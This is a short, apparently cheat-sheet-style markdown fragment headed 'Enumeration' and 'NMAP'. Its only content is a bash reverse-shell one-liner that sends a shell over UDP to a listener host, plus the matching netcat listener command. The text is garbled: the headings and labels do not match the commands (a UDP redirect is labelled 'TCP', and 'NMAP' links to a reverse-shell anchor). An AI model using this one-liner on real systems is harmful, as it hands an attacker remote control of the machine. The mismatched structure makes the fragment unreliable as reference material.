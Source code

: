 # Enumeration

## Summary
* [NMAP](#reverse-shell)
    * [Bash TCP](#bash-tcp)
 

### NMAP

```
TCP:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

UDP:
nc -u -lvp 4242
```
### UDP
